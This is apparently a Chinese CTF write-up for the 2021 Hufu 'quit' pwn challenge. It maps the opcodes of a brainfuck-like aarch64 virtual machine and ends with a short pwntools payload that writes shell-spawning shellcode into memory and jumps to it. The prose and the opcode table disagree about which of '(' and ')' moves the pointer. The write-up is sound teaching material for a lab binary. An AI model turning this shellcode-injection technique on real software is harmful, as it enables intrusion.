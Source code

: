 ```yaml
---
title: 虎符2021_pwn
date: 2021-04-13 20:59:59
permalink: /pages/91c903/
categories:
  - ctf_wp
  - 虎符ctf
tags:
  - 
---
```

# 虎符2021 pwn题目

##  quit

### 逆向分析

这个aarch的调试, 在[这里](https://lingze.xyz/pages/2206d6/)写了一些,  就是用ida去挂gdb的server, 这里是qemu开启的gdbserver, 

然后进行调试以后这个就是个简单的虚拟机, 

程序流程如下: 

首先是读取字符, 根据不同字符进行映射, 这里有一个映射的规律,

 (但是我没保存脚本, 挺简单的来着, 通过地址.rodata:00000000000012F8的0xff大小的一个数组进行查找, 得到映射出来的opcode, 这里我保存了结果:

```
opcode: disasm: number
2:  *mmap_mem++:                42 *
4:  put(mmap_mem):              64 @
3:  *mmap_mem--:                47 /
6: ..: 91 [
7: ..: 93 ]
1:  mmap_mem++:                 41 )
5:  write one byte to mmap_mem: 35 #
0:  mmap_mem--:                 40 (
9:  jmp to mmap_mem:            71 G
8: exit: 0
10: nop: 1
```

### 漏洞和exp

其实也有点像一个brainfuck, 主要的是9指令, 跳过去运行, 我们通过5号指令写入shellcode, 跳过去即可, 

于是就, 先写入数据(5号, "#" ), 然后指针++(1号, "(") , 然后指针减shellcode起始地址(0号, ")"), 然后跳过去执行即可(9号, "G"),

于是payload应该如下:

```python
shell = asm(shellcraft.aarch64.sh())

leng = len(shell)
payload = "#)" * leng + "(" * leng + "G" 
```
